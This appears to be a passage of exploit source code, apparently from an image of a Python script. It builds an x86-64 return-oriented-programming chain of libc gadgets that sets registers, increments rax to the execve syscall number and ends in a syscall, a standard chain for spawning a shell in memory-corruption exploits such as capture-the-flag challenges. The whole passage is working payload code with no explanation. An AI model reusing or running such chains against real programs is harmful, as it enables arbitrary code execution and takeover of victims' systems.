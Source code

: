 p += pack('<Q', libc.address + 0x00000000003af1a8) # @ .data + 8
p += pack('<Q', libc.address + 0x0000000000001b96) # pop rdx ; ret
p += pack('<Q', libc.address + 0x00000000003af1a8) # @ .data + 8
p += pack('<Q', libc.address + 0x0000000000094115) # xor rax, rax ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000af990) # add rax, 1 ; ret
p += pack('<Q', libc.address + 0x00000000000013bc) # syscall